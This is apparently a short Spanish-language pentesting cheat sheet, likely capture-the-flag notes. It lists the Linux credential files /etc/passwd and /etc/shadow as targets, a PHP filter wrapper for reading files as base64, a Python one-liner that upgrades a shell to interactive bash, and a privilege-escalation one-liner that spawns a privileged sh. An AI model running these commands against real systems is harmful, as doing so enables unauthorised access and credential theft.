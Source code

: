 # Tips generales

### Directorios Principales

`etc/passwd`
`etc/shadow`

## PHP

### Encodear
`php://filter/convert.base64-encode/resource=FILENAME`

## Python

### Upgrade the shell  
`python -c 'import pty; pty.spawn("/bin/bash")'`

### Priv Esc

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

